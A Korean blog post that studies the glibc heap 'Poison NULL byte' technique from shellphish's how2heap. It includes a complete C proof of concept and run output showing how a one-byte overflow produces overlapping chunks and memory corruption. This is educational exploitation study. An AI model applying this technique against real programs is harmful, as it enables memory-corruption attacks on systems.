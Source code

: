 ```yaml
---
layout: post
title: "Poison NULL byte"
date: 2016-06-13 16:46:53 +0900
comments: true
categories: 
---
```


[Shellphish 가 쓴 힙 공격 문서중에 하나, Poison NULL byte](https://github.com/shellphish/how2heap/blob/master/poison_null_byte.c) 를 읽고 정리한다.

* 참고 문서: [Glibc Adventures: The Fogotten Chunks](http://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf)

우선 a,b,c 를 차례로 alloc 한다.

Ubuntu 에서 0x100 을 을 alloc 하고, `malloc_usable_size()` 를 해보면, 0x108 이 나온다. Rounding 때문인지, 요청한 것보다 메모리 영역이 더 잡혔다.

```
a = (uint8_t*)malloc(0x100);
b = (uint8_t*)malloc(0x200);
c = (uint8_t*)malloc(0x100);
```

* 이제 `uint64_t* b_size_ptr = (uint64_t*)(b-8);` 을 통해서, `struct malloc_chunk` 구조체 멤버인 `INTERNAL_SIZE_T size;` 를 가리키는 포인터를 만든다.

* 이 구조체를 이용해 b.size 를 찍어볼 수가 있는데,

* 0x211 로 나온다. `(0x200 + 0x10) | prev_in_use` 가 되는 것. 

* 이제 `a[real_a_size] = 0;`  을 통해서, b.size 의 하위 1 바이트를 0 으로 만든다.

* b.size 를 찍어보면 이제 0x210 으로 나온다.

* 이제 c.prev_size 를 찍어본다. b 를 free 했기때문에, 유효한 필드가 되버렸다. 찍으면 0x210 이 나온다.

* 이제 `b1 = malloc(0x100);` 을 한다. 그러면 예전 b 자리에 할당될 것이다.

만약 `a[real_a_size] = 0;` 을 안했다면, 다음과 같이 c.prev 가 제대로 update 되는데... (0x200 으로 앨록한 자리에 0x100 을 앨록했으니, c 앞에 free chunk 가 존재)

```
~ » ./a.out                                                              z@ubuntu
a: 0x1466010
real_a_size: 0x108
b: 0x1466120
real_b_size: 0x208
c: 0x1466330
addr of b_size_ptr: 0x1466118
b.size after free: 0x211
b.size is (0x200+0x10) | prev_in_use
addr of c_prev_size_ptr: 0x1466320
c.prev_size is 0x210
b1: 0x1466120
c.prev_size is 0x100
c' 0x100
c'' 0
```

`a[real_a_size] = 0;`... 즉 앞의 청크에서 NULL 바이트 오버플로우가 일어났다면... 그래서 b.size 의 하위 1 바이트를 0 으로 만들었다면 무슨 일이 벌어지는가? (`c'` 는 `c - 16`, `c''` 는 `c - 32`)

```
~ » ./a.out                                                              z@ubuntu
a: 0x1466010
real_a_size: 0x108
b: 0x1466120
real_b_size: 0x208
c: 0x1466330
addr of b_size_ptr: 0x1466118
b.size after free: 0x211
b.size is (0x200+0x10) | prev_in_use
addr of c_prev_size_ptr: 0x1466320
c.prev_size is 0x210
b1: 0x1466120
c.prev_size is 0x210
c' 0x210
c'' 0xf0
```

c.prev_size 가 제대로 update 되지 않는다. 0x210 -> 0x100 으로 줄어야하는데. 대신 엉뚱한데 0f0 이 써졌다.

정리하면, `a|b|c` 가 앨록된 상황에서, b 가 프리되고, a 가 overflow 되면서 b.size 의 1 바이트가 0 으로 바뀌었다. 그랬더니, 추후 앨록을 하니까 c 의 메타데이터가 연쇄반응으로 깨져버렸다.

이제,

* 현재 `a|b1|(free)|c` 로 앨록된 상황이다. c.prev_size 는 지나치게 크게 되어있다. b1 까지도 free 하다고 잘못 생각하고 있는 상황.

이제 `b2` 를 앨록한다.

* 그럼 `a|b1|b2|(free)|c` 로 앨록된 상황이다. 여전히 c.prev 는 잘못되어있다.

* 여기서 `free(b1); free(c);` 를 해준다음에 꽤 큰 사이즈를 `d` 로 앨록 요청하면, 상식적으로 `b2` 다음에 존재하던 free chunk 부터 앨록되어야 하나, 메모리 매니저는 `b == b1` 자리에 앨록한다. `d` 와 `b2` 가 overlapping 되는 셈.

* 이제 `d` 에다가 쓰인 데이터는 `b2` 가 가리키는 메모리를 를 corrupt 시킨다.

* 교훈은, malloc 에서 경계를 넘어가서, 1 바이트만 NULL 로 overwrite 되어도 메모리 커럽션이 일어날 수 있다는 것.

`b.size` 의 `prev_in_use` 가 overwrite 되지 않았을 경우,

소스.

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

int main()
{
	uint8_t* a;
	uint8_t* b;
	uint8_t* c;
	uint8_t* b1;
	uint8_t* b2;
	uint8_t* d;

	a = (uint8_t*) malloc(0x100);
	int real_a_size = malloc_usable_size(a);
	printf("a: %p\n",a);
	printf("real_a_size: %#x\n",real_a_size);

	b = (uint8_t*) malloc(0x200);
	int real_b_size = malloc_usable_size(b);
	printf("b: %p\n",b);
	printf("real_b_size: %#x\n",real_b_size);
	
	c = (uint8_t*) malloc(0x100);
	printf("c: %p\n",c);

	uint64_t* b_size_ptr = (uint64_t*)(b-8);
	printf("addr of b_size_ptr: %p\n",b_size_ptr);

	free(b);

	printf("b.size after free: %#lx\n",*b_size_ptr);
	printf("b.size is (0x200+0x10) | prev_in_use\n");

	a[real_a_size] = 0;
	printf("b.size after free: %#lx\n",*b_size_ptr);

	uint64_t* c_prev_size_ptr = (uint64_t*)(c-16);
	printf("addr of c_prev_size_ptr: %p\n",c_prev_size_ptr);
	
	printf("c.prev_size is %#lx\n",*c_prev_size_ptr);

	b1 = malloc(0x100);
	printf("b1: %p\n",b1);

	printf("c.prev_size is %#lx\n",*c_prev_size_ptr);
	printf("c - 8 %#lx\n",*(((uint64_t*)c)-1));
	printf("c - 16 %#lx\n",*(((uint64_t*)c)-2));
	printf("c - 24 %#lx\n",*(((uint64_t*)c)-3));
	printf("c - 32 %#lx\n",*(((uint64_t*)c)-4));

	b2 = malloc(0x80);
	printf("b2: %p\n",b2);
	memset(b2,'B',0x80);
	printf("Current b2 content:\n%s\n",b2);

	printf("c.prev_size is %#lx\n",*c_prev_size_ptr);
	printf("c - 8 %#lx\n",*(((uint64_t*)c)-1));
	printf("c - 16 %#lx\n",*(((uint64_t*)c)-2));
	printf("c - 24 %#lx\n",*(((uint64_t*)c)-3));
	printf("c - 32 %#lx\n",*(((uint64_t*)c)-4));

	free(b1);
	free(c);
	d = malloc(0x300);
	printf("d: %p\n",d);

	memset(d,'D',0x300);

	printf("New b2 content:\n%s\n",b2);
}
```

실행결과.

```
~ » ./a.out                                                      z@ubuntu
a: 0x12f4010
real_a_size: 0x108
b: 0x12f4120
real_b_size: 0x208
c: 0x12f4330
addr of b_size_ptr: 0x12f4118
b.size after free: 0x211
b.size is (0x200+0x10) | prev_in_use
addr of c_prev_size_ptr: 0x12f4320
c.prev_size is 0x210
b1: 0x12f4120
c.prev_size is 0x100
c - 8 0x110
c - 16 0x100
c - 24 0
c - 32 0
b2: 0x12f4230
Current b2 content:
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
c.prev_size is 0x70
c - 8 0x110
c - 16 0x70
c - 24 0
c - 32 0
d: 0x12f42c0
New b2 content:
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
```

이번에는 `b.size` 의 `prev_in_use` 가 corrupt 되었을 경우, `b2` 가 `D` 로 바뀌었는데, malloc 이 overlapping 하게 만들어져서, 다른 메모리에 대한 memset 의 사이드이펙트로 corrupt 됨을 알 수 있다.

```
a: 0x1655010
real_a_size: 0x108
b: 0x1655120
real_b_size: 0x208
c: 0x1655330
addr of b_size_ptr: 0x1655118
b.size after free: 0x211
b.size is (0x200+0x10) | prev_in_use
b.size after free: 0x200
addr of c_prev_size_ptr: 0x1655320
c.prev_size is 0x210
b1: 0x1655120
c.prev_size is 0x210
c - 8 0x110
c - 16 0x210
c - 24 0
c - 32 0xf0
b2: 0x1655230
Current b2 content:
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
c.prev_size is 0x210
c - 8 0x110
c - 16 0x210
c - 24 0
c - 32 0x60
d: 0x1655120
New b2 content:
DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD
```
